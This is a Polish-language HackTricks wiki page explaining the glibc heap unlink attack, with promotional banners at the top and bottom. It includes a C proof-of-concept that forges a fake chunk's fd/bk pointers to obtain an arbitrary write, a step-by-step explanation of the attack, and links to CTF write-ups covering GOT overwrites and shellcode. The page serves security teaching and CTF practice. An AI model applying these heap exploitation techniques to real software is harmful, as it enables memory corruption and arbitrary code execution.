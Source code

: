 # Atak Unlink

{% hint style="success" %}
Dowiedz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Dowiedz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Podstawowe informacje

Kiedy ten atak został odkryty, głównie pozwalał na WWW (Write What Where), jednak dodano **sprawdzenia**, co sprawia, że nowa wersja ataku jest bardziej interesująca, ale bardziej złożona i **bezużyteczna**.

### Przykład kodu:

<details>

<summary>Kod</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Atak nie działa, jeśli są używane tcaches (po wersji 2.26)

### Cel

Ten atak pozwala **zmienić wskaźnik na blok tak, aby wskazywał 3 adresy przed samym sobą**. Jeśli nowa lokalizacja (otoczenie, gdzie znajdował się wskaźnik) zawiera interesujące informacje, takie jak inne kontrolowalne alokacje / stos..., możliwe jest odczytanie/nadpisanie ich w celu spowodowania większej szkody.

* Jeśli ten wskaźnik znajdował się na stosie, ponieważ teraz wskazuje 3 adresy przed samym sobą, a użytkownik potencjalnie może go odczytać i zmodyfikować, będzie możliwe wyciekanie poufnych informacji ze stosu lub nawet modyfikacja adresu powrotu (może) bez dotykania canary
* W przykładach CTF ten wskaźnik znajduje się w tablicy wskaźników do innych alokacji, dlatego, ustawiając go 3 adresy przed i mając możliwość odczytu i zapisu, można sprawić, że inne wskaźniki wskazują na inne adresy.\
Ponieważ potencjalnie użytkownik może również czytać/zapisywać inne alokacje, może wyciekać informacje lub nadpisywać nowe adresy w dowolnych lokalizacjach (np. w GOT).

### Wymagania

* Pewna kontrola pamięci (np. stos) w celu utworzenia kilku bloków, przypisując wartości do niektórych atrybutów.
* Wyciek stosu w celu ustawienia wskaźników fałszywego bloku.

### Atak

* Istnieją dwa bloki (blok1 i blok2)
* Atakujący kontroluje zawartość bloku1 oraz nagłówki bloku2.
* W bloku1 atakujący tworzy strukturę fałszywego bloku:
* Aby ominąć zabezpieczenia, upewnia się, że pole `size` jest poprawne, aby uniknąć błędu: `corrupted size vs. prev_size while consolidating`
* a pola `fd` i `bk` fałszywego bloku wskazują tam, gdzie wskaźnik bloku1 jest przechowywany z przesunięciami odpowiednio -3 i -2, więc `fake_chunk->fd->bk` i `fake_chunk->bk->fd` wskazują na pozycję w pamięci (stosie), gdzie znajduje się rzeczywisty adres bloku1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Nagłówki bloku2 są modyfikowane w taki sposób, aby wskazywały, że poprzedni blok nie jest używany, a rozmiar to rozmiar zawartego fałszywego bloku.
* Gdy drugi blok zostanie zwolniony, to następuje odłączenie tego fałszywego bloku:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Wcześniej sprawiono, że `fake_chunk->fd->bk` i `fake_chunk->bk->fd` wskazują na to samo miejsce (lokalizację na stosie, gdzie przechowywany jest `blok1`, więc był to poprawny lista połączona). Ponieważ **oba wskazują na tę samą lokalizację**, tylko ostatni (`fake_chunk->bk->fd = fake_chunk->fd`) będzie **działać**.
* Spowoduje to **nadpisanie wskaźnika do bloku1 na stosie adresem (lub bajtami) przechowywanym 3 adresy wcześniej na stosie**.
* Dlatego jeśli atakujący mógłby ponownie kontrolować zawartość bloku1, będzie mógł **pisać wewnątrz stosu**, mając potencjalnie możliwość nadpisania adresu powrotu, pomijając canary, oraz modyfikacji wartości i wskaźników zmiennych lokalnych. Nawet ponownie modyfikując adres bloku1 przechowywany na stosie na inną lokalizację, jeśli atakujący mógłby ponownie kontrolować zawartość bloku1, będzie mógł pisać w dowolnym miejscu.
* Należy zauważyć, że było to możliwe, ponieważ **adresy są przechowywane na stosie**. Ryzyko i eksploatacja mogą zależeć od **miejsca, gdzie są przechowywane adresy do fałszywego bloku**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Referencje

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Chociaż byłoby dziwne znalezienie ataku unlink nawet w CTF, tutaj znajdziesz kilka rozwiązań, gdzie ten atak był używany:
* Przykład CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* W tym przykładzie zamiast stosu jest tablica adresów zaalokowanych za pomocą malloc. Atak unlink jest wykonywany, aby móc zaalokować tutaj blok, umożliwiając kontrolowanie wskaźników tablicy zaalokowanych adresów. Następnie istnieje inna funkcjonalność, która pozwala modyfikować zawartość bloków w tych adresach, co pozwala wskazywać adresy na GOT, modyfikować adresy funkcji w celu uzyskania wycieków i RCE.
* Kolejny przykład CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Podobnie jak w poprzednim przykładzie, istnieje tablica adresów alokacji. Możliwe jest wykonanie ataku unlink, aby sprawić, że adres pierwszej alokacji wskazuje kilka pozycji przed rozpoczęciem tablicy, a następnie nadpisać tę alokację na nowej pozycji. Dzięki temu możliwe jest nadpisanie wskaźników innych alokacji, aby wskazywały na GOT atoi, uzyskać wyciek libc, a następnie nadpisać atoi GOT adresem do jednego gadżetu.
* Przykład CTF z niestandardowymi funkcjami malloc i free, które wykorzystują podatność bardzo podobną do ataku unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Istnieje przepełnienie, które pozwala kontrolować wskaźniki FD i BK niestandardowego malloc, które zostaną (niestandardowo) zwolnione. Ponadto sterta ma ustawiony bit exec, więc możliwe jest wyciekanie adresu sterty i wskazywanie funkcji z GOT na kawałek sterty z shellcodem do wykonania.

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
